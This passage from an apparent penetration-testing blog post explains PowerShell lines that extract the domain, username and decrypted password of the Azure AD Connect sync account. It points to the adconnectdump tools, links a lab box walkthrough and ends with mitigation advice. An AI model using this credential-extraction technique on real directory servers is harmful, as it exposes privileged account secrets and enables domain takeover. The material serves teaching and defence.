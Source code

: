 **Line-by-line breakdown**:

1.  `$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}`
    -   Extracts the domain from the configuration XML using XPath.

2.  `$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}`
    -   Extracts the username from the configuration XML using XPath.

3.  `$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}`
    -   Extracts the password from the decrypted configuration using XPath.

4.  `Write-Host ("Domain: " + $domain.Domain)`
    -   Displays the extracted domain.

5.  `Write-Host ("Username: " + $username.Username)`
    -   Displays the extracted username.

6.  `Write-Host ("Password: " + $password.Password)`
    -   Displays the extracted password.


### Exploiting AD Connect Using [adconnectdump](https://github.com/dirkjanm/adconnectdump?tab=readme-ov-file): {#exploiting-ad-connect-using-adconnectdump--20241014084307-adconnectdump-dot-md}

-   It is also possible to dump credentials using `dirkjanm`'s tools found in the [adconnect](https://github.com/dirkjanm/adconnectdump?tab=readme-ov-file) repo:
    -   There are 3 different tools available which require specific circumstances to use. I will not go into detail here.
    -   I am just adding as a reference.

-   **Building is required using Visual Studio**:
    -   {{< figure src="/ox-hugo/2024-10-14-090121_.png" >}}


## Example of this attack: {#example-of-this-attack}

-   See my walkthrough for the box Monteverde
    -   <https://bloodstiller.com/walkthroughs/monteverde-box/>


## Mitigation Strategies {#mitigation-strategies}

1.  Implement strict access controls on the Azure AD Connect server.
2.  Use Just-In-Time (JIT) access for administrative tasks.
3.  Enable and monitor advanced auditing for the MSOL account.
4.  Consider using Pass-through Authentication (PTA) instead of PHS if feasible.
5.  Regularly rotate the MSOL account password.
6.  Implement network segmentation to limit access to the Azure AD Connect server.
7.  Use a hardware security module (HSM) for key storage if possible.

